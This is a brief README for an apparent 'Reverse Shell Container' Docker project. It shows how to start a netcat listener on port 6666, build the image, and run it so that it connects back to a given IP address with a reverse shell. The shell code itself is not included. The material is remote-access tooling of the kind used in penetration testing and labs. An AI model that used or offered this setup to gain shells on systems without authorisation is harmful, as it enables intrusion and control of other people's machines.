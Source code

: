 # Reverse Shell Container

Run a container which connects to a server with a reverse shell.

## Start the server

The reverse shell in the container will connect back to your server.
Open up a port with the following snippet:

```bash
nc -lvvp 6666
```

## Build the image

```bash
docker build -t ayeks/reverse_shell:latest .
```

## Execute the image

Run the reverse shell container with: `docker run --rm -it -e IP=192.168.178.26 -e PORT=6666 ayeks/reverse_shell`
